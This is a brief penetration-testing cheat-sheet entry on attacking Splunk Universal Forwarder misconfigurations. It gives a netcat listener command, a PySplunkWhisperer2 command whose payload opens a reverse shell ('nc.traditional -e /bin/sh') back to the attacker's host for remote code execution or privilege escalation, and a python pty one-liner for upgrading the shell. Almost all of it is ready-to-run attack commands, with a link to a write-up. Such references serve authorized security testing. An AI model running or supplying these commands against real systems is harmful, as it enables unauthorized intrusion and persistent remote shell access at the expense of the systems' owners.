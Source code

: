 # Splunk

### Run listner

```text
nc -nlvp 4444
```

### Local privilege escalation, or remote code execution, through Splunk Universal Forwarder \(UF\) misconfigurations.

```text
python PySplunkWhisperer2_remote.py --host <remote_host> --lhost <local_host> --username <*******> --password <***********> --payload 'nc.traditional -e/bin/sh '<local_host>' '<localport>''
```

### Spawn a process, and connect its controlling terminal with the current process’s standard io.

`python3 -c 'import pty;pty.spawn("/bin/bash")'`



Ref: [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/)

